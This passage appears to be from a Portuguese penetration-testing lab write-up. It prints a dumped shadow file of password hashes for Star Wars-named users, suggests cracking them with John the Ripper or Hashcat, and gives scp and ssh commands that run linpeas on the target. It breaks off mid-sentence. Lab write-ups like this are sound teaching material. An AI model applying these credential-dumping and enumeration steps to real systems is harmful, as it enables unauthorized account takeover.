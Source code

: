 ```
ben_kenobi:$1$5nfRD/bA$y7ZZD0NimJTbX9FtvhHJX1:18564:0:99999:7:::
darth_vader:$1$rLuMkR1R$YHumHRxhswnfO7eTUUfHJ.:18564:0:99999:7:::
anakin_skywalker:$1$jlpeszLc$PW4IPiuLTwiSH5YaTlRaB0:18564:0:99999:7:::
jarjar_binks:$1$SNokFi0c$F.SvjZQjYRSuoBuobRWMh1:18564:0:99999:7:::
lando_calrissian:$1$Af1ek3xT$nKc8jkJ30gMQWeW/6.ono0:18564:0:99999:7:::
boba_fett:$1$TjxlmV4j$k/rG1vb4.pj.z0yFWJ.ZD0:18564:0:99999:7:::
jabba_hutt:$1$9rpNcs3v$//v2ltj5MYhfUOHYVAzjD/:18564:0:99999:7:::
greedo:$1$vOU.f3Tj$tsgBZJbBS4JwtchsRUW0a1:18564:0:99999:7:::
chewbacca:$1$.qt4t8zH$RdKbdafuqc7rYiDXSoQCI.:18564:0:99999:7:::
kylo_ren:$1$rpvxsssI$hOBC/qL92d0GgmD/uSELx.:18564:0:99999:7:::
mysql:!:18564:0:99999:7:::
avahi:*:18564:0:99999:7:::
colord:*:18564:0:99999:7:::
```

**Explicação:** O arquivo shadow contém os hashes de senha. Identifiquei vários usuários com senhas (hashes MD5 e SHA512), incluindo usuários de exemplo do Star Wars. Esses hashes podem ser cracked com ferramentas como John the Ripper ou Hashcat para obter as senhas em texto plano.

### 4.4 Análise de hashes e cracking

Os usuários interessantes encontrados:

```
vagrant:$6$NABMNgxO$...  (SHA512 - usuário com acesso)
leia_organa:$1$N6DIbGGZ$...  (MD5 - senha facilmente crackável)
luke_skywalker:$1$/7D55Ozb$...  (MD5)
han_solo:$1$6jIF3qTC$...  (MD5)
darth_vader:$1$rLuMkR1R$...  (MD5)
```

**Explicação:** Esses hashes podem ser testados contra dicionários de senha. Considerando os nomes (personagens de Star Wars), as senhas provavelmente estão relacionadas.

---

## 5. Enumeração adicional do sistema

Para um mapa completo das informações sensíveis, recomenda-se utilizar ferramentas como  **linpeas.sh** :

```bash
# Transferir linpeas para o alvo
scp /opt/tools/linpeas.sh vagrant@192.168.56.3:/tmp/

# Executar no alvo
ssh vagrant@192.168.56.3 "bash /tmp/linpeas.sh > /tmp/linpeas_output.txt"

# Baixar resultado
scp vagrant@192.168.56.3:/tmp/linpeas_output.txt /home/user/
```

**Benefícios:** Linpeas fornece um relatório completo sobre:
